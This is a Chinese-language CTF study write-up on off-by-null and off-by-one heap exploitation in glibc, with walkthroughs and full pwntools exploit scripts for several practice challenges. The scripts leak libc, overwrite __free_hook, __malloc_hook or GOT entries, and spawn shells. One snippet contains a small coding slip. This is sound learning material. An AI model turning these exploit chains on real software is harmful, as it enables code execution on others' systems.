这篇文章是我对off by null的一个学习总结，我这里就不再单独对off by one进行总结了，因为利用的思想是一样的。我对off by null的总结分为了两部分，第一部分是对利用的思路进行了总结，第二部分是对off by null做过的题目进行了总结。这篇文章不是特别适合对off by null完全不懂的师傅学习，我写的主要是总结，最后是对off by null已经有了一定理解再来看，应该会效果更好吧。

#  off by null的利用思路：

off by null漏洞，顾名思义就是溢出了一个空字节，核心是让其堆块的prev inuse位溢出为0，从而认为它的低地址堆块处于了free状态，然后加以利用。

首先我们要用到四个chunk（我们只利用三个chunk，高地址的那个chunk是防止和top chunk合并的）

```python
chunk 0#merged chunk     （不能让这个堆块在fastbin或是tcachebin中）
chunk 1#overflow chunk&&spy chunk
chunk 2#merge chunk      （不能让这个堆块在fastbin或是tcachebin中）
chunk 3#prevent merge chunk
```

这四个堆块对应的名字我也做了标注（就是上面的merged chunk   overflow chunk等等)

> 1、先将这四个chunk都申请出来，注意merged chunk和merge chunk的大小，不能让他们在tcachebin或者fastbin中（不然就无法合并了），同时还要考虑overflow chunk的大小，因为要产生off by null，所以它的大小应该为八字节结尾（例如0x58,0x68,0x78···），然后释放掉merged chunk，为了保证接下来的合并可以顺利进行
>
> 2、接着编辑 overflow chunk，让他产生off by null漏洞溢出空字节到merge chunk的prev inuse位，同时把merge chunk的prev inuse位给改了（其大小要保证当前地址减去这个prev size正好能找到merged chunk（如果程序中没有编辑功能，那就将overflow chunk free掉，再申请回来写入数据造成溢出）。
>
> 3、然后释放掉merge chunk，此时检测到自身的prev inuse位是0，触发向前合并（先会触发向后合并，不过只要后面的那个chunk不是Top chunk就不会合并)（我个人习惯将向低地址合并称为向前合并）
>
> 4、最终由于merge chunk合并时直接找到了merged chunk，因此这二者之间的所有区域都处于了free状态，但是这二者之间其实还有一个**spy_chunk（我把它叫做间谍堆块，因为它没有被free掉却处于了free的合并区域）**
>
> 剩下的就具体题目具体分析吧，反正接下来的利用就是要配合spy_chunk的特性（它的特性就是它出在free的区域，但是自己是没有被free掉的，然后就可以打double free、堆块重叠等等）


> 为什么要利用off by null让chunk的prev inuse位成0？
>
> 因为当前chunk的prev inuse位决定了上个堆块是否处于free状态，这也就决定着是否能够向前合并（我个人习惯将向低地址合并称为向前合并）。我们确实释放了上个堆块，但是改变的是spy_chunk的prev inuse位，不过我们现在想忽略这个spy_chunk，因此要将当前chunk的prev_size位伪造成0，来保证之后的向前合并可以正常进行。

# 相关题目wp

## hitcon_2018_children_tcache

### 保护策略：



### 漏洞分析：

> strcpy函数会被00所截断，然后将字符串的末尾加上00



因此我们输入的大小本身不会造成溢出，但是strcpy函数最后补充的00造成了off by null。




这道题bss段上存放的堆索引是0-9 从最小判断，哪个空的用哪个。

### 利用思路：

先申请四个堆块

```python
chunk 0#size >0x410
chunk 1#overflow chunk&&spy chunk
chunk 2#lead chunk size>0x410
chunk 3#prevent merge chunk
```

然后将0,1chunk释放掉，再将1申请回来（释放0是为了接下来的合并，再把1给申请回来是因为要重新写入数据，来产生off_by_null，因为**没有edit功能所以不得不这样**）

用循环来清空一下chunk2 的prev size位（方便接下来布置数据，不然里面装的是垃圾数据），然后写入prev size位，它的大小应该能保证释放掉chunk2后，和chunk0合并（也就是chunk0加上chunk1+0x10大小）

然后释放掉chunk2，使chunk0和chunk2合并（处于tcachebin中的chunk是无法合并的）**（chunk1本来是allocated状态，但是属于chunk0和chunk2合并的区域，因此它表面上看起来是free掉了，但实际上它是allcoated，如果有edit功能的话，就可以往一块被free掉的区域来写入数据了（因此我也管它叫做spy chunk 间谍堆块）**

但是这道题并没有edit功能。不过我们可以将chunk0申请回来，然后show 1来泄露libc地址。

因为unsortbin里面如果只有一个chunk，那么它的fd和bk指针都是指向了main_arena（它位于libc中），所以我们将chunk0申请回来的话，那么现在unsortedbin中的chunk则位于了chunk1的位置，chunk1可是没有被释放掉的（这意味着它里面的内容是可以被打印出来的）。如此chunk1中的fd和bk的位置就成了libc里的地址，然后show就将libc地址打印出来了。（此时的情况如下图）




现在的情况是chunk1没有被释放（至少我们没有主动释放chunk1，并且bss段上依旧记录着chunk1的地址信息），但是由于之前的chunk0和chunk2将这片区域合并了，再将chunk0申请回来的话，bins中存放的就是chunk1的地址了。因此我们现在的chunk1处于了释放又没被释放的叠加态,hhh。


我们再申请一个chunk1大小的堆块，这样就会从当前的unsortedbin中拿，可是别忘了我们的unsortedbin中的地址就是chunk1的地址，因此bss段上就记录了两次chunk1的地址（这意味着我们可以释放同一个地址两次，尽管这道题free指针后置空了，但依旧造成了double free)


我们将bss段上是chunk1地址的两个堆块全部释放掉，造成double free。（效果如下）



我们申请回来一个chunk,将里面的数据写成\_\_free\_hook（这个里面的数据指的就是原本fd指针的位置）

结果发现申请了一个chunk之后，tcachebins里面的那条链上还是有俩chunk（如下图）



> 经过[roderick](https://roderickchan.github.io/)师傅的提示，发现是因为它自身是形成了一个环，自己指向着自己，如果不修改它的fd指针的话，即使申请一个chunk出来，然后去顺着chunk的fd找上一个chunk的时候发现还是它自己，因此这个循环永远也不会结束（如果不改变fd的话），也就是可以无限申请这个地址的堆块。如果想打破循环也就是要修改它的fd指针，此处我申请它的fd指针为\_\_free\_hook地址来打破这个循环。
>
> 至于为啥上面申请完后，还有俩chunk是因为先申请的chunk，再修改的fd，所以依然有两个（不过循环已经结束了）

然后将地址在\_\_free\_hook上的chunk申请出来，写入one_gadget地址，执行free即可获取shell。

### EXP：

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```python
from tools import *
p,e,libc=load('a')
p=remote('node4.buuoj.cn',29644)
#debug(p,'pie',0x1029)
context.log_level='debug'
def dbg():
    gdb.attach(p)
    pause()

def new(size,content):
    p.recvuntil('Your choice: ')
    p.sendline('1')
    p.recvuntil('Size:')
    p.sendline(str(size))
    p.recvuntil('Data:')
    p.sendline(content)

def delete(index):
    p.recvuntil('Your choice: ')
    p.sendline('3')
    p.recvuntil('Index:')
    p.sendline(str(index))

def show(index):
    p.recvuntil('Your choice: ')
    p.sendline('2')
    p.recvuntil('Index:')
    p.sendline(str(index))

new(0x4f0,'aaaa')#merged chunk
new(0x48,'bbbb')#spy chunk
new(0x4f0,'cccc')#merge chunk
new(0x10,'dddd')#prevent chunk

delete(0)
delete(1)
new(0x48,'e'*0x48)
delete(0)
for i in range(8):
    new((0x47-i),'f'*(0x47-i))
    delete(0)
    
new(0x48,b'g'*0x40+p64(0x550))
#dbg()
delete(2)#touch off merge

new(0x4f0,'aaaa')
#dbg()
show(0)
leak_libc_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
log_addr('leak_libc_addr')
libc_base_addr=leak_libc_addr-0x3ebca0
log_addr('libc_base_addr')
free_hook_addr=libc_base_addr+libc.symbols['__free_hook']
log_addr('free_hook_addr')
one_gadget=[0x4f2a5,0x4f302,0x10a2fc]
one_gadget=libc_base_addr+one_gadget[1]
new(0x50,'aaaa')
delete(0)
delete(2)
new(0x50,p64(free_hook_addr))
new(0x50,'aaaa')
new(0x50,p64(one_gadget))
delete(1)
p.interactive()
```




## asis2016_b00ks

### 总结：

通过学习这道题的总结与收获有：

1、这道题存在off_by_null漏洞，可以利用该漏洞让结构体堆块落在我们可控的区域内，从而可以对结构体堆块中存放的chunk地址进行修改。

2、利用mmap申请超大内存，然后配合off_by_null修改结构体堆块中的chunk地址，执行show函数进行泄露libc基地址，同理用edit函数来劫持\__free_hook，写入one_gadget。

### 保护策略：



### 漏洞分析：



在这个函数里（已被重命名）存在off_by_null漏洞，我们输入最大字节的数据时，会多出来一个0造成了溢出。分析一下几个关键的点，然后判断一下这里能否被利用。

首先是程序里存在一个结构体，如下。该结构体大小为0x20字节，以最大的成员字节数作为结构体每个变量类型的基本长度，最大为8字节，因此四个变量全部八字节对齐，结构体为0x20字节。

```c
struct info
{
    int id;
    void *book_name;
    void *description;
    int description_size;
}
```

这个结构体记录了两个chunk的位置（也就是两个void指针），和结构体的id以及description_chunk的大小。然后结构体的地址存储到了bss段，而结构体是单独存放在了一个chunk。**（意味着一次create就会产生三个chunk，分别是存放book_name的chunk和description的chunk和结构体chunk）**

结构体的地址存储在下图的位置。



同时这道题有个比较重要的变量就是author name。因为它存在off_by_null漏洞，下图是author_name的位置。

距离存在结构体的地址仅仅只有0x20个字节。而我们可以往author_name里面写入0x20字节的数据，这就导致了我们是可以溢出到结构体地址一个00字节。具体情况先写个脚本跑一下。

```python
from tools import *
p,e,libc=load('a')
#p=remote('node4.buuoj.cn',28301)
libc=ELF('libc.so.6')
e=ELF('./a')
debug(p,'pie',0x12AF)
context.log_level='debug'
def create(book_name_size,book_name,book_description_size,book_description):
    p.recvuntil('> ')
    p.sendline(str(1))
    p.recvuntil('Enter book name size: ')
    p.sendline(str(book_name_size))
    p.recvuntil('Enter book name (Max 32 chars): ')
    p.sendline(book_name)
    p.recvuntil('Enter book description size: ')
    p.sendline(str(book_description_size))
    p.recvuntil('Enter book description: ')
    p.sendline(book_description)

def delete(id):
    p.recvuntil('> ')
    p.sendline(str(2))
    p.recvuntil('Enter the book id you want to delete: ')
    p.sendline(str(id))

def edit(id,book_description):
    p.recvuntil('> ')
    p.sendline(str(3))
    p.recvuntil('Enter the book id you want to edit: ')
    p.sendline(str(id))
    p.recvuntil('Enter new book description: ')
    p.sendline(book_description)

def show():
    p.recvuntil('> ')
    p.sendline(str(4))

def change_name(content):
    p.recvuntil('> ')
    p.sendline(str(5))
    p.recvuntil('Enter author name: ')
    p.sendline(content)

p.recvuntil('Enter author name: ')
p.sendline('a')
create(0x20,'aaaa',0x30,'bbbb')
change_name(b'a'*0x20)
p.interactive()
```

下图就是此时利用off_by_null漏洞前的情况，此时结构体地址里是正常存放的四个成员变量。



可以看见下图，存放的结构体地址的最低字节已经被修改成了00。



### 利用思路：

#### 平常使用show或者edit、free函数是怎么找到对应的chunk的？

**先去bss段找存放的对应结构体地址，然后去看结构体里面记录的chunk信息，再通过chunk信息（也就是chunk的地址）来找到对应的chunk**。<u>现在我们已经把结构体地址给改了，如果我们能够往这个结构体地址里面写入数据，就相当于我们可以去非法进行edit、show、free了（因为可以去操作原本不存在的chunk）</u>。接下来的核心就是我们要确定是否能够往这个结构体里写入数据。

可以看到上图这个地址是0x000055937ccbe000。我们看一下当前两个chunk的地址。



根据上图可以发现，我们现在并不能控制0x000055937ccbe000这个地址，但是我们可以控制第一个和第二个堆块（我们申请的chunk）的大小，**我们只需要构造一下前两个堆块的大小，让0x000055937ccbe000这个地址落在description的这个chunk即可（因为我们edit可以编辑description这个chunk）** 稍微算一下，只需要让第一个chunk大小为0xd0（调试或者自己用计算器减，都能算出来），那么就可以让0x000055937ccbe100(这里变成0x000055937ccbe100的原因是前两个堆块太的抬高，让第二字节的后半个字节进位了，但并不影响，因为覆盖的仅仅是最后一个字节成00）这个地址落在description这个chunk的范围里，这步的目的是为了接下来编辑结构体内容打下铺垫。（可以发现下图的description_chunk是从已经覆盖到了0x000055937ccbe100)



接下来，我们只需用edit编辑这个chunk，然后构造一个struct_chunk即可。

将其中的description_chunk的地址改成free的got表，然后用show泄露它的真实地址，再用edit去修改它的真实地址？

我们先使用下面的脚本试试这件事情。

```python
from tools import *
p,e,libc=load('a')
#p=remote('node4.buuoj.cn',28301)
libc=ELF('libc.so.6')
e=ELF('./a')
debug(p,'pie',0x12af)
context.log_level='debug'
def create(book_name_size,book_name,book_description_size,book_description):
    p.recvuntil('> ')
    p.sendline(str(1))
    p.recvuntil('Enter book name size: ')
    p.sendline(str(book_name_size))
    p.recvuntil('Enter book name (Max 32 chars): ')
    p.sendline(book_name)
    p.recvuntil('Enter book description size: ')
    p.sendline(str(book_description_size))
    p.recvuntil('Enter book description: ')
    p.sendline(book_description)

def delete(id):
    p.recvuntil('> ')
    p.sendline(str(2))
    p.recvuntil('Enter the book id you want to delete: ')
    p.sendline(str(id))

def edit(id,book_description):
    p.recvuntil('> ')
    p.sendline(str(3))
    p.recvuntil('Enter the book id you want to edit: ')
    p.sendline(str(id))
    p.recvuntil('Enter new book description: ')
    p.sendline(book_description)

def show():
    p.recvuntil('> ')
    p.sendline(str(4))

def change_name(content):
    p.recvuntil('> ')
    p.sendline(str(5))
    p.recvuntil('Enter author name: ')
    p.sendline(content)
free_got_addr=e.got['free']
fake_struct=p64(0x1)#struct_chunk_id
fake_struct+=p64(0)#book_name_addr
fake_struct+=p64(free_got_addr)#description_addr
fake_struct+=p64(0x100)#description_size

p.recvuntil('Enter author name: ')
p.sendline('a')
create(0xd0,'aaaa',0x40,fake_struct)
change_name(b'a'*0x20)


p.interactive()
```

通过下图发现，伪造好free_got的地址放到description_chunk的位置，是开了pie。因此是行不通的，这里采用了另一种方法来泄露libc基地址。




#### 通过mmap映射超大区域，来泄露libc基地址

在这之前，需要先看一下进程的空间布局。下图转自[(30条消息) 进程的内存空间布局_cztqwan的博客-CSDN博客_进程内存布局](https://blog.csdn.net/cztqwan/article/details/80248479)



每个蓝色空间代表的区域，是否彼此存在随机的偏移，用了random offset来标注。可以看到**内核空间，栈，内存映射段等等都存在着随机偏移，因此我们获取了栈地址也无法利用偏移来算出堆的地址**，其余也是同理。但是**内存映射段都是mmap映射的区域，包括了动态链接库（这里我是这么理解的，如果不对的话，还请指正），因此我们再用mmap映射一块区域，依旧是和动态链接库同属于一大块区域。因此新映射的这块区域和libc基地址存在固定偏移**。怎么触发mmap映射一块区域呢？利用malloc申请一块超大内存来实现，同时这个地址也会被记录在结构体堆块中。

因此我们将结构体堆块中的description_chunk_addr改成**指向mmap申请的那个地址**即可(这个地址肯定是位于堆上的，因此我们现在需要获取一个堆的地址)

考虑到author name和结构体堆块的地址紧挨着，因此我们可以将author name给填满，然后打印author name，就得到了一个堆地址，脚本如下：



```python
p.recvuntil('Enter author name: ')
p.sendline(b'b'*32)
create(0xd0,'aaaa',0x40,fake_struct)
show()
p.recvuntil(b'b'*32)
leak_heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
log('leak_heap_addr',hex(leak_heap_addr))
```


接下来先申请一块超大内存，然后利用偏移将结构体堆块(这个结构体堆块是可控的那个堆块）中的description_addr改成指向结构体堆块（这个结构体堆块是存放mmap映射地址的那个堆块）中存放description_addr的地址。



然后去泄露这个libc地址，脚本如下。

```python
fake_struct=p64(0x1)#struct_chunk_id
fake_struct+=p64(0)#book_name_addr
fake_struct+=p64(leak_heap_addr+0x70)#description_addr
fake_struct+=p64(0x100)#description_size
edit(1,fake_struct)
change_name(b'a'*0x20)
show()
p.recvuntil('Description: ')
leak_libc_addr=u64(p.recv(6).ljust(8,b'\x00'))
log('leak_libc_addr',hex(leak_libc_addr))
libc_base_addr=leak_libc_addr-0x5ca010
log('libc_base_addr',hex(libc_base_addr))
```

拿到了libc基地址，我们就去劫持\__free_hook，放入one\_gadget地址，劫持方法跟泄露libc地址一样，我们将结构体堆块（这个结构体堆块是存放mmap映射地址的那个堆块）中的description改成\__free\_hook的地址，然后编辑该结构体，写入one\_gadget地址。最后再释放掉随便一个堆块，即可获取shell。劫持\_\_free_hook部分的脚本如下:

```python
free_hook=libc_base_addr+libc.symbols['__free_hook']
one_gadget=libc_base_addr+0x4527a
fake_struct=p64(0x1)#struct_chunk_id
fake_struct+=p64(0)#book_name_addr
fake_struct=p64(free_hook)#description_addr
fake_struct+=p64(0x100)#description_size
edit(1,fake_struct)
edit(2,p64(one_gadget))
delete(2)
```


### EXP:

```python
from tools import *
p,e,libc=load('a')
#p=remote('node4.buuoj.cn',28301)
#libc=ELF('libc.so.6')
e=ELF('./a')
debug(p,'pie',0x128B)
context.log_level='debug'
def create(book_name_size,book_name,book_description_size,book_description):
    p.recvuntil('> ')
    p.sendline(str(1))
    p.recvuntil('Enter book name size: ')
    p.sendline(str(book_name_size))
    p.recvuntil('Enter book name (Max 32 chars): ')
    p.sendline(book_name)
    p.recvuntil('Enter book description size: ')
    p.sendline(str(book_description_size))
    p.recvuntil('Enter book description: ')
    p.sendline(book_description)

def delete(id):
    p.recvuntil('> ')
    p.sendline(str(2))
    p.recvuntil('Enter the book id you want to delete: ')
    p.sendline(str(id))

def edit(id,book_description):
    p.recvuntil('> ')
    p.sendline(str(3))
    p.recvuntil('Enter the book id you want to edit: ')
    p.sendline(str(id))
    p.recvuntil('Enter new book description: ')
    p.sendline(book_description)

def show():
    p.recvuntil('> ')
    p.sendline(str(4))

def change_name(content):
    p.recvuntil('> ')
    p.sendline(str(5))
    p.recvuntil('Enter author name: ')
    p.sendline(content)
    

p.recvuntil('Enter author name: ')
p.sendline(b'b'*32)
create(0xd0,'aaaa',0x40,'tttt')
create(0x20,'cccc',0x21000,'dddd')
show()
p.recvuntil(b'b'*32)
leak_heap_addr=u64(p.recv(6).ljust(8,b'\x00'))
log('leak_heap_addr',hex(leak_heap_addr))

fake_struct=p64(0x1)#struct_chunk_id
fake_struct+=p64(0)#book_name_addr
fake_struct+=p64(leak_heap_addr+0x70)#description_addr
fake_struct+=p64(0x100)#description_size
edit(1,fake_struct)
change_name(b'a'*0x20)
show()
p.recvuntil('Description: ')
leak_libc_addr=u64(p.recv(6).ljust(8,b'\x00'))
log('leak_libc_addr',hex(leak_libc_addr))
libc_base_addr=leak_libc_addr-0x5ca010
log('libc_base_addr',hex(libc_base_addr))

free_hook=libc_base_addr+libc.symbols['__free_hook']
one_gadget=libc_base_addr+0x4527a
fake_struct=p64(0x1)#struct_chunk_id
fake_struct+=p64(0)#book_name_addr
fake_struct=p64(free_hook)#description_addr
fake_struct+=p64(0x100)#description_size
edit(1,fake_struct)
edit(2,p64(one_gadget))
delete(2)
p.interactive()
```


## hitcontraining_heapcreator

### 整体思路：

利用off_by_one把原本的结构体堆块释放再申请变成了申请的堆块，而原本的申请堆块释放再申请成了结构体堆块，从而控制结构体堆块中的堆块信息。关键点就是要把第二个堆块申请成0x10字节的（因为要保证申请结构体堆块的时候，把这个堆块释放掉再申请回来）

### 保护策略：



### 程序分析：

各个函数实现的什么功能，我就不说了，应该都能看出来。分析几个有用的点。

首先这道题是有一个结构体（malloc申请了它的大小为0x10)，它用来记录申请的每个chunk的size和地址。（从下面两个图片可以分析出来）





而实例化的每个结构体的地址存放到了bss段上。而之后去寻找指定的chunk进行删，改，打印操作都是先去bss段上去找存放的对应结构体，然后根据偏移来寻找其中的记录信息的size和地址成员。

### 漏洞点



这里可以输入比申请的size多一个字节的数据，存在刻意的off_by_one漏洞。

### 利用思路：

我们先申请两个chunk，看一下布局是怎样的。



可以发现我们每添加一个chunk，都会在它上面（低地址）有一个，结构体堆块来记录信息。可是现在我们可以用edit往里面多写一个数据，正好可以溢出到下一个结构体堆块的size位，这意味着可以控制下一个结构体堆块的大小。



现在我们利用溢出把这个chunk的大小改成0x41（如上图），这就意味着程序现在把原本的结构体堆块和我们申请的chunk当成了一个结构体chunk。现在我们执行delete(1)将其删除，我们就会得到两个处于释放掉的chunk（把申请的chunk（大小为0x20)和结构体堆块（此时是0x41了）都释放掉了）如下图


接下来就是核心利用点，我们再申请0x30的大小，这样fastbin里0x40的chunk就会被申请回原来的位置。与此同时程序会自己申请一个0x10的chunk，也就将fastbin里的0x20也申请回去了。**但0x40的这个chunk包含了0x20的这个chunk，而0x40是用户堆块，我们可以往里面写入数据，从而修改里面的0x20的结构体堆块。**(如下图)



<u>原本结构体堆块是来描述chunk1的信息的（换句话就是，谁是chunk1是由结构体堆块说了算），结果现在结构体堆块到了chunk1的里面，因此现在我们就可以通过控制结构体堆块来伪造chunk1。</u>

我们将chunk1的地址改成（也就是在改结构体堆块的地址成员）atoi的got表，再执行show函数的时候，本来是打印chunk1地址里的内容的，可是现在chunk1的地址改成了atoi的got表，因此实现了泄露atoi的真实地址。同理，执行edit函数的时候，本来是要修改chunk1地址里的内容，结果现在chunk1的地址改成了atoi的got表，因此就相当于修改atoi的真实地址了，改为system，传入/bin/sh即可获取shell。**（要注意的就是写入atoi的got表时，顺便要伪造一个size，因为edit的时候还需要用到这个size，如果填充成0的话，是写不进去数据的）**

### EXP：

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```python
from tools import *
p,e,libc=load('b')
debug(p,0x400A43)
#p=remote('node4.buuoj.cn',29606)
def add(size,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Size of Heap : ')
    p.sendline(str(size))
    p.recvuntil('Content of heap:')
    p.send(content)

def edit(index,content):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Index :')
    p.sendline(str(index))
    p.recvuntil('Content of heap : ')
    p.sendline(content)

def show(index):
    p.recvuntil('Your choice :')
    p.sendline('3')    
    p.recvuntil('Index :')
    p.sendline(str(index))   

def delete(index):
    p.recvuntil('Your choice :')
    p.sendline('4')
    p.recvuntil('Index :')
    p.sendline(str(index))

atoi_got_addr=e.got['atoi']
add(0x18,'abcd')
add(0x10,'efgh')
edit(0,b'a'*0x18+b'\x41')
delete(0x1)
add(0x30,b'c'*0x20+p64(0x20)+p64(atoi_got_addr))
show(1)
atoi_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
log('atoi',hex(atoi_addr))
sys_addr,bin_sh_addr=local_search('atoi',atoi_addr,libc)
#sys_addr_bin_sh_addr=long_search('atoi',atoi_addr)
edit(1,p64(sys_addr))
p.sendline('/bin/sh\x00')
p.interactive()
```


## roarctf_2019_easy_pwn

### 保护策略;



### 漏洞分析：



猛一看感觉是常规堆溢出，没有对edit函数中的输入数据的大小做检查。不过仔细点开sub_E26这个函数发现，是进行了检查，如果edit函数中的size大于了add函数时堆块的大小，那么就选择add函数时堆块的大小，如果edit函数中的size小于了add函数时创建的堆块大小，那么就选择edit函数的size。

不过还有一种情况产生了off by one的漏洞，也就是edit函数中的size正好比add函数创建堆块大小大了10,，此时就会产生off by one漏洞（如下）


### 利用思路：

然后就是常规的off by one手法，上面已经讲过了。大致就是off by one造成合并之后，spy_chunk位于了一片free的内存中，然后进行申请一定大小的size，正好将spy_chunk的用户区域上存放unsortedbin 中的fd指针，然后将其打印出来，获取libc基地址。

然后将spy chunk释放掉，再申请回来，打fastbin attack，将\_\_malloc\_hook申请出来，打one_gadget。

然而发现所有的one_gadget都不能使用，那选择用realloc函数来调整栈帧，再打one_gadget。使用realloc函数调整栈帧可以看[这篇文章](https://www.cnblogs.com/ZIKH26/articles/16421631.html)

### EXP：

```py
from tools import *
p,e,libc=load('a')
p=remote('node4.buuoj.cn',28799)
context.log_level='debug'
#gdb.attach(p)
def add(size):
    p.sendlineafter('choice: ','1')
    p.sendlineafter('size: ',str(size)) 
     
def write(index,size,content):
    p.sendlineafter('choice: ','2')
    p.sendlineafter('index: ',str(index))
    p.sendlineafter('size: ',str(size))
    p.sendafter('content: ',content)

    
def delete(index):
    p.sendlineafter('choice: ','3')
    p.sendlineafter('index: ',str(index))

def show(index):
    p.sendlineafter('choice: ','4')
    p.sendlineafter('index: ',str(index))

add(0x80)#merged chunk
add(0x68)#overflow chunk
add(0x80)#merge chunk
add(0x10)#prevent merge chunk
delete(0)
payload=0x60*b'a'+p64(0x100)+b'\x90'
write(1,114,payload)

delete(2)
add(0x80)
show(1)
p.recvuntil('content: ')
leak_libc_addr=u64(p.recv(6).ljust(8,b'\x00'))
log_addr('leak_libc_addr')
libc_base_addr=leak_libc_addr-0x3c4b78
log_addr('libc_base_addr')

add(0x68)

delete(1)
malloc_hook=libc_base_addr+libc.symbols['__malloc_hook']
#realloc_addr=libc_base_addr+libc.symbols['realloc']
realloc_addr=libc_base_addr+0x846c0
write(2,0x8,p64(malloc_hook-0x23))

add(0x68)
add(0x68)
#one_gadget=[0x45226,0x4527a,0xf03a4,0xf1247]
one_gadget=[0x45226,0x4526a,0xf03a4,0xf1147]
one_gadget=libc_base_addr+one_gadget[1]
log_addr('one_gadget')
payload=0xb*b'a'+p64(one_gadget)+p64(realloc_addr+16)#p64(one_gadget)
write(4,len(payload),payload)
#debug(p,'pie',0xccc)
add(0x10)
p.interactive()
```



>  这道题考察的off by one，但是跟以往用off by one来让堆块合并制造堆块重叠的方式不同。这道题由于限制了申请堆块的大小，让chunk释放之后无法进入unsorted bin (这就意味着堆块无法触发合并)。所以采用伪造size，然后直接释放将其造成堆块重叠。

## npuctf_2020_easyheap

### 保护策略：




### 漏洞分析



在edit函数中，<u>输入的数据比申请的chunk范围大了一个字节。然后创建堆块的时候发现只能创建0x18或者0x38的堆块，这正好是off by one利用的前提</u>（如下图）。



### 利用思路

由于申请的堆块都属于tcachebin的范围，释放掉之后也无法进行合并。所以我们不往制造堆块合并那个方向考虑。**这道题的特殊性是存在指针堆块（就是程序自己申请了一个堆块，里面存放了我们申请堆块的指针）**，像这种题目我们通常采用篡改指针堆块里存放的指针，而且通常是用互换指针堆块和用户堆块的方法。

以这道题为例，我们申请两个堆块

```
add(0x18,'aaaa')
add(0x18,'bbbb')
```

将第一个堆块当做溢出堆块，然后去改变第二个指针堆块的size，将其size位改为0x41。

> 为什么要改成0x41?
>
> 因为我们只能申请0x18和0x38两种大小的堆块，如果申请0x18那么得到的就是0x20大小的堆块，和指针堆块一样大，那还怎么堆块重叠呢？所以我们只能申请0x38大小的堆块，得到的是0x40大小的堆块，我们将第二个指针堆块的size位改为0x41之后，再申请一个0x38大小的堆块，就会把原本指针堆块的位置申请回来(因为它的大小被伪造成了0x41)当做用户堆块，那么此时真正的指针堆块就和用户堆块造成了重叠(如下图)
>
> PS:用户堆块我指的是自己申请的堆块，指针堆块是程序自己申请的那个堆块



然后申请一个0x38大小的堆块，就造成了堆块重叠。然后思路就是往用户堆块写入数据，覆写指针堆块里的指针将其改完free函数的got表，然后进行泄露得到libc地址。然后再用edit函数覆写edit函数的got表为system的地址，最后释放掉一个存有/bin/sh字符串的堆块即可获取shell、。

### EXP:

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

```py
from tools import *
p,e,libc=load('a')
p=remote('node4.buuoj.cn',27557)
context.log_level='debug'
#gdb.attach(p)
def add(size,content):
    p.sendlineafter('Your choice :','1')
    p.sendlineafter('Size of Heap(0x10 or 0x20 only) : ',str(size)) 
    p.sendlineafter('Content:',content)
    p.recvuntil('Done!\n')
     
   
def edit(index,content):
    p.sendlineafter('Your choice :','2')
    p.sendlineafter('Index :',str(index))
    p.sendlineafter('Content: ',content)
    p.recvuntil('Done!\n')

def show(index):
    p.sendlineafter('Your choice :','3')
    p.sendlineafter('Index :',str(index))

def delete(index):
    p.sendlineafter('Your choice :','4')
    p.sendlineafter('Index :',str(index))
free_got_addr=e.got['free']
add(0x18,'aaaa')
add(0x18,'bbbb')
payload=b'/bin/sh\x00'.ljust(0x10,b'\x00')+p64(0x0)+p64(0x41)
edit(0,payload)

delete(1)
#debug(p,0x400E9f)
add(0x38,'ffff')
payload=p64(0)*3+p64(0x21)+p64(0x38)+p64(free_got_addr)
edit(1,payload)
show(1)
p.recvuntil('Content : ')
free_addr=u64(p.recv(6).ljust(8,b'\x00'))
log_addr('free_addr')
sys_addr,bin_sh_addr=long_search('free',free_addr)
#sys_addr,bin_sh_addr=local_search('free',free_addr,libc)
payload=p64(sys_addr)
edit(1,payload)
#debug(p,0x400D81)
delete(0)
p.interactive()
```

